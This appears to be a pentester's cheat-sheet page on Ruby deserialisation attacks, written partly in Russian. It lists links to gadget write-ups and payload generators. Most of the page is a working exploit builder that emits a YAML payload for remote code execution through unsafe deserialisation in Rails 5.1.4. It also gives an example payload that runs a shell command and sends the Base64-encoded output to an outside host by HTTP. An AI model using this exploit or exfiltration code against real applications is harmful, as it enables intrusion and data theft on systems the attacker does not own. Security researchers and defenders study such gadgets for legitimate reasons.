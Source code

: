 # Deserialisation



md на github о десере в Ruby: [https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md](https://github.com/httpvoid/writeups/blob/main/Ruby-deserialization-gadget-on-rails.md)

### Marshal.load(\<user\_input>) = RCE

Ruby Marshal+Base64 RCE payload playground/generator: [https://repl.it/@allyshka/Ruby-RCE-with-Marshalload](https://repl.it/@allyshka/Ruby-RCE-with-Marshalload)

Other guide: [https://www.elttam.com/blog/ruby-deserialization/](https://www.elttam.com/blog/ruby-deserialization/)

### YAML.load(\<user\_input>) = RCE

### Rails 5.1.4 YAML unsafe deserialization RCE payload

Example: [https://gist.github.com/niklasb/df9dba3097df536820888aeb4de3284f](https://gist.github.com/niklasb/df9dba3097df536820888aeb4de3284f)

Точно работает на Rails **5.1.4**

```ruby
require "erb"
require "base64"
require "active_support"
 
if ARGV.empty?
  puts "Usage: exploit_builder.rb <source_file>"
  exit!
end
 
erb = ERB.allocate
erb.instance_variable_set :@src, File.read(ARGV.first)
erb.instance_variable_set :@lineno, 1
 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
 
payload = Base64.encode64(Marshal.dump(depr))
 
puts <<-PAYLOAD
---
!ruby/object:Gem::Requirement
requirements:
  - !ruby/object:Rack::Session::Abstract::SessionHash
      req: !ruby/object:Rack::Request
        env:
          rack.session: !ruby/object:Rack::Session::Abstract::SessionHash
            loaded: true
          HTTP_COOKIE: "a=#{payload}"
      store: !ruby/object:Rack::Session::Cookie
        coder: !ruby/object:Rack::Session::Cookie::Base64::Marshal {}
        key: a
        secrets: []
      exists: true
PAYLOAD
```

Пример payload:

```ruby
require "base64"
out = `pwd`
url = URI.parse('http://bizone.pw')
req = Net::HTTP::Get.new(url.to_s + '/?q=' + Base64.strict_encode64(out))
res = Net::HTTP.start(url.host, url.port) {|http|
  http.request(req)
}
```
